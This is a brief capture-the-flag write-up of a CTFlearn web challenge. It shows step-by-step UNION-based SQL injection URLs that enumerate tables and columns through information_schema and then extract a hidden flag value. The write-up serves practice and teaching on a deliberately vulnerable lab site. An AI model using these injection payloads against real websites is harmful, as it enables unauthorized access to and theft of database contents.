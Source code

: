 View dog information of id 1, the url changes to 

```html
https://web.ctflearn.com/web8/?id=1
```

Test injection with UNION

```html
https://web.ctflearn.com/web8/?id=1%20union%20select%201,2,3,4
```

```html
https://web.ctflearn.com/web8/?id=1%20union%20select%201,2,table_name,4%20from%20information_schema.tables%20where%20table_schema=database()
```

There are two extra tables shown in result page, ``w0w_y0u_f0und_m3`` and ``webeight``


Try to find out the column names.

```html
https://web.ctflearn.com/web8/?id=1%20union%20select%201,table_name,column_name,4%20from%20information_schema.columns%20where%20table_schema=database()
```

The pages shows  ``w0w_y0u_f0und_m3`` contains one column, ``f0und_m3``. Get values of ``f0und_m3``

```html
https://web.ctflearn.com/web8/?id=1%20union%20select%201,2,f0und_m3,4%20from%20w0w_y0u_f0und_m3
```

The flag is shown.
